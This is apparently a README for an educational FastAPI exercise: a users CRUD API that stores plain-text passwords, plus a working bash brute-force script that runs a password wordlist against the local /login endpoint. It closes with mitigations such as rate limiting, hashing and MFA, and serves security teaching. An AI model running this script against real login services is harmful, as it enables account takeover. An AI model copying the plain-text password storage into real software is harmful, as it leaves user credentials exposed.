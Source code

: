 <!-- START README -->

# Users CRUD + Controlled Brute-Force (FastAPI)

> **Educational use only.** All tests must be run **only** against this **local** API and with **practice accounts** created for the exercise.

## Requirements
- Python 3.10+
- (Windows) Git Bash or WSL to run `brute.sh`

## Setup

```bash
# In the project folder
py -m venv .venv
.\.venv\Scripts\Activate.ps1
py -m pip install --upgrade pip
py -m pip install -r requirements.txt
```

## Run the API

```bash
py -m uvicorn main:app --reload
```

- Swagger UI: http://127.0.0.1:8000/docs  
- ReDoc:       http://127.0.0.1:8000/redoc

> **Note:** The “database” is **in-memory**. If the server reloads (e.g., due to `--reload`), users are cleared and must be created again.

---

## Endpoints

- `POST /users` — create user (receives **plain-text password**)
- `GET /users` — list users (passwords not returned)
- `GET /users/{id}` — get user by id
- `PUT /users/{id}` — update (everything **except** password)
- `DELETE /users/{id}` — delete
- `POST /login` — authenticate (returns only `login successful` or `Invalid credentials`)

### Quick CRUD test (in `/docs`)

**1) POST /users**
```json
{
  "username": "demo",
  "password": "pass123",
  "email": "demo@mail.com",
  "is_active": true
}
```

**2) GET /users**  
**3) GET /users/1**

**4) PUT /users/1**
```json
{
  "email": "new@mail.com",
  "is_active": false
}
```

**5) Username conflict demo**  
Create user `admin`, then:
```json
{ "username": "admin" }
```
on `PUT /users/1` → should respond `username ya existe`.

**6) POST /login**
```json
{
  "username": "demo",
  "password": "pass123"
}
```

---

## Controlled brute-force (bash)

File: **`brute.sh`** (included). Run in **Git Bash** while the API is running:

```bash
./brute.sh
```
### Controlled brute-force script (what this does)

The script below performs a **controlled** brute-force test **against your own local API**.  
It iterates over a small wordlist, sends a POST to `/login` for each guess, and **stops on the first success**.  
You can safely tweak:
- `API` → URL of your local server (change port if needed)
- `USER` → the username to test (e.g., `demo`, `admin`, `leo`)
- `WORDLIST` → the candidate passwords you want to try
- `sleep 0.2` → delay between attempts to keep the test controlled

```bash
# brute.sh — controlled brute-force demo
# How it works:
# 1) Reads candidate passwords from WORDLIST (array below).
# 2) For each candidate, sends POST /login to your local API.
# 3) If the response contains "login successful", it prints the finding and exits.
# Safety:
# - Small, fixed delay between attempts (sleep 0.2) to avoid overwhelming the API.
# - Intended ONLY for your local practice API and accounts created for this exercise.
# You can change:
# - API:  if your server runs on a different host/port.
# - USER: which username to test (demo/admin/leo/...).
# - WORDLIST: add/remove candidate passwords.

#!/usr/bin/env bash
API="http://127.0.0.1:8000/login"
USER="leo"   # change to 'demo' or 'admin' if you want

WORDLIST=(pass123 123456 admin admin123 demo secret qwerty password adios)

attempts=0
start=$(date +%s)

for pwd in "${WORDLIST[@]}"; do
  attempts=$((attempts+1))
  resp=$(curl -s -X POST "$API" \
    -H "accept: application/json" \
    -H "Content-Type: application/json" \
    -d "{\"username\":\"$USER\",\"password\":\"$pwd\"}")
  echo "[$attempts] Trying '$pwd' -> $resp"
  if [[ "$resp" == *"login successful"* ]]; then
    end=$(date +%s)
    echo "FOUND: password='$pwd' in $attempts attempts, $((end-start))s"
    exit 0
  fi
  sleep 0.2
done

end=$(date +%s)
echo "NOT found after $attempts attempts in $((end-start))s"
exit 1


> Keep a small delay (e.g., `sleep 0.2`) so the test is **controlled** and you don’t overwhelm the local API.

### What to report (example)
- Target user: `admin`  
- Wordlist size: 12  
- Delay between attempts: 0.2 s  
- **Result**: found `secret` in 6 attempts, ~2 s  
- Conclusion: weak/common passwords are cracked very quickly.

---

## Mitigations (mention in your write-up)
- **Rate limiting** per IP/username
- **Backoff** after failed attempts (growing delays)
- **Strong password policy** (length/entropy)
- **Password hashing** (e.g., `bcrypt`) instead of plain text
- **CAPTCHA / MFA** to slow down automation

---

## Project structure
```
first-term-exam/
├─ main.py           # FastAPI (CRUD + login), in-memory "DB"
├─ brute.sh          # Bash brute-force script (controlled, uses curl)
├─ requirements.txt  # Dependencies
└─ README.md
```

### (Optional) .gitignore
```gitignore
.venv/
__pycache__/
*.pyc
*.log
.DS_Store
Thumbs.db
```

<!-- END README -->
